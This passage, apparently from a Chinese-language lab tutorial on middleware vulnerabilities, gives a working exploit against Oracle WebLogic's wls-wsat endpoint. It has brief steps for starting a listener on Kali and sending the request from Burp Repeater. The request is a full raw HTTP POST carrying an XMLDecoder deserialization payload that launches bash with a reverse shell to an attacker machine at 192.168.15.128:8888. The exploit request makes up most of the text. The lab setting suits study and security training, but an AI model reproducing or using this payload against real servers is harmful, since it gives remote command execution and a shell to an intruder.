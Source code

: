 ```
首先kali监听端口。
```

![image-20241122185936815](中间件漏洞/image-20241122185936815.png)	

```
然后使用bp把以下内容放到repeater运行即可，其中host部分填靶机，反弹shell填攻击机的ip。
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.15.50:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 640

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.15.128/8888 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
